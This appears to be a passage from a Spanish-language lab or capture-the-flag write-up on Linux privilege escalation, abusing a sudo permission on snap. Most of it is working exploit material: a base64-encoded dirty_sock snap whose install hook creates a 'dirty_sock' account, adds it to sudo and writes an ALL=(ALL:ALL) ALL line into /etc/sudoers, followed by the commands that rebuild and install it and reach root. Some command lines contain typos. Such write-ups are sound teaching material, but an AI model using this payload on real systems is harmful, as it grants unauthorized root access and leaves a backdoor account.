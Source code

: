 Vemos que podemos lanzar snap como root.

Buscamos en google snap hook exploit .snap file y encontramos el link siguiente 
[Linux Privilege Escalation via snapd (dirty_sock exploit)](https://initblog.com/2019/dirty-sock/). Econtramos
un hook que genera un nuevo local user. Lo miramos y lo reutilizamos usando python.

```bash
echo "aHNxcwcAAAAQIVZcAAACAAAAAAAEABEA0AIBAAQAAADgAAAAAAAAAI4DAAAAAAAAhgMAAAAAAAD/
/////////xICAAAAAAAAsAIAAAAAAAA+AwAAAAAAAHgDAAAAAAAAIyEvYmluL2Jhc2gKCnVzZXJh
ZGQgZGlydHlfc29jayAtbSAtcCAnJDYkc1daY1cxdDI1cGZVZEJ1WCRqV2pFWlFGMnpGU2Z5R3k5
TGJ2RzN2Rnp6SFJqWGZCWUswU09HZk1EMXNMeWFTOTdBd25KVXM3Z0RDWS5mZzE5TnMzSndSZERo
T2NFbURwQlZsRjltLicgLXMgL2Jpbi9iYXNoCnVzZXJtb2QgLWFHIHN1ZG8gZGlydHlfc29jawpl
Y2hvICJkaXJ0eV9zb2NrICAgIEFMTD0oQUxMOkFMTCkgQUxMIiA+PiAvZXRjL3N1ZG9lcnMKbmFt
ZTogZGlydHktc29jawp2ZXJzaW9uOiAnMC4xJwpzdW1tYXJ5OiBFbXB0eSBzbmFwLCB1c2VkIGZv
ciBleHBsb2l0CmRlc2NyaXB0aW9uOiAnU2VlIGh0dHBzOi8vZ2l0aHViLmNvbS9pbml0c3RyaW5n
L2RpcnR5X3NvY2sKCiAgJwphcmNoaXRlY3R1cmVzOgotIGFtZDY0CmNvbmZpbmVtZW50OiBkZXZt
b2RlCmdyYWRlOiBkZXZlbAqcAP03elhaAAABaSLeNgPAZIACIQECAAAAADopyIngAP8AXF0ABIAe
rFoU8J/e5+qumvhFkbY5Pr4ba1mk4+lgZFHaUvoa1O5k6KmvF3FqfKH62aluxOVeNQ7Z00lddaUj
rkpxz0ET/XVLOZmGVXmojv/IHq2fZcc/VQCcVtsco6gAw76gWAABeIACAAAAaCPLPz4wDYsCAAAA
AAFZWowA/Td6WFoAAAFpIt42A8BTnQEhAQIAAAAAvhLn0OAAnABLXQAAan87Em73BrVRGmIBM8q2
XR9JLRjNEyz6lNkCjEjKrZZFBdDja9cJJGw1F0vtkyjZecTuAfMJX82806GjaLtEv4x1DNYWJ5N5
RQAAAEDvGfMAAWedAQAAAPtvjkc+MA2LAgAAAAABWVo4gIAAAAAAAAAAPAAAAAAAAAAAAAAAAAAA
AFwAAAAAAAAAwAAAAAAAAACgAAAAAAAAAOAAAAAAAAAAPgMAAAAAAAAEgAAAAACAAw" | xargs | tr -d ' '
```

copiamos el output y recreamos el paquete snap malicioso

```bash
cd /tmp
pytho -c 'print "aHNxcwcAAAAQIVZcAAACAAAAAAAEABEA0AIBAAQAAADgAAAAAAAAAI4DAAAAAAAAhgMAAAAAAAD
//////////xICAAAAAAAAsAIAAAAAAAA+AwAAAAAAAHgDAAAAAAAAIyEvYmluL2Jhc2gKCnVzZXJhZGQgZGlydHlfc29
jayAtbSAtcCAnJDYkc1daY1cxdDI1cGZVZEJ1WCRqV2pFWlFGMnpGU2Z5R3k5TGJ2RzN2Rnp6SFJqWGZCWUswU09HZk1
EMXNMeWFTOTdBd25KVXM3Z0RDWS5mZzE5TnMzSndSZERoT2NFbURwQlZsRjltLicgLXMgL2Jpbi9iYXNoCnVzZXJtb2Q
gLWFHIHN1ZG8gZGlydHlfc29jawplY2hvICJkaXJ0eV9zb2NrICAgIEFMTD0oQUxMOkFMTCkgQUxMIiA+PiAvZXRjL3N
1ZG9lcnMKbmFtZTogZGlydHktc29jawp2ZXJzaW9uOiAnMC4xJwpzdW1tYXJ5OiBFbXB0eSBzbmFwLCB1c2VkIGZvciB
leHBsb2l0CmRlc2NyaXB0aW9uOiAnU2VlIGh0dHBzOi8vZ2l0aHViLmNvbS9pbml0c3RyaW5nL2RpcnR5X3NvY2sKCiA
gJwphcmNoaXRlY3R1cmVzOgotIGFtZDY0CmNvbmZpbmVtZW50OiBkZXZtb2RlCmdyYWRlOiBkZXZlbAqcAP03elhaAAA
BaSLeNgPAZIACIQECAAAAADopyIngAP8AXF0ABIAerFoU8J/e5+qumvhFkbY5Pr4ba1mk4+lgZFHaUvoa1O5k6KmvF3F
qfKH62aluxOVeNQ7Z00lddaUjrkpxz0ET/XVLOZmGVXmojv/IHq2fZcc/VQCcVtsco6gAw76gWAABeIACAAAAaCPLPz4
wDYsCAAAAAAFZWowA/Td6WFoAAAFpIt42A8BTnQEhAQIAAAAAvhLn0OAAnABLXQAAan87Em73BrVRGmIBM8q2XR9JLRj
NEyz6lNkCjEjKrZZFBdDja9cJJGw1F0vtkyjZecTuAfMJX82806GjaLtEv4x1DNYWJ5N5RQAAAEDvGfMAAWedAQAAAPt
vjkc+MA2LAgAAAAABWVo4gIAAAAAAAAAAPAAAAAAAAAAAAAAAAAAAAFwAAAAAAAAAwAAAAAAAAACgAAAAAAAAAOAAAAA
AAAAAPgMAAAAAAAAEgAAAAACAA" + "A"*4256 + "=="' | base64 -d > setenso.snap

sudo /usr/bin/snap install setenso.snap --devmode
cat /etc/passwd
sudo dirty_sock > password dirty_sock
sudo su > password dirty_sock

whoami
#Output
root
```
